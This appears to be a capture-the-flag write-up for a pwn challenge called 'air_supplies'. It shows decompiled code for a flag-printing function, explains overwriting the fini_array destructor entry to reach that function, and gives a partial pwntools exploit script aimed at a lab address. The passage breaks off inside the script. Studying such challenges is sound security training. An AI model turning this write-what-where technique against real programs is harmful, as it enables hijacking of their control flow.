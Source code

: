 `_`:

```c
void _(void)

{
  long lVar1;
  size_t __n;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  __n = strlen("\nYou found the correct packet to drop Agent! Good job!\nHere is a gift for you: \n"
              );
  write(1,"\nYou found the correct packet to drop Agent! Good job!\nHere is a gift for you: \n",__n)
  ;
  system("cat flag*");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This is the key function that prints the flag for us. So, this is **what** we want to write. Now, we need to find **where** we should write it.

Even though there is no call to any function after this, there is something that is called at the end of the program and these are the **Destructors**. This is what we are going to overwrite.

The address can be found easily with `pwntools`.

```python
fname = './air_supplies'
e = ELF(fname, checksec = False)
dtors = e.symbols['__do_global_dtors_aux_fini_array_entry']
```

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = '172.17.0.1'
port = 1337
fname = './air_supplies'

LOCAL = False # change this

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

e = ELF(fname, checksec = False)
ru = lambda x : r.recvuntil(x)
sl = lambda x : r.sendline(x)
sla = lambda x,y : r.sendlineafter(x,y)

def overwrite():
	# Get the address of "_" to overwrite __do_global_dtors_aux_fini_array_entry
	dtors = e.symbols['__do_global_dtors_aux_fini_array_entry']
	flag = e.symbols['_']
	sla(':', str(dtors))
```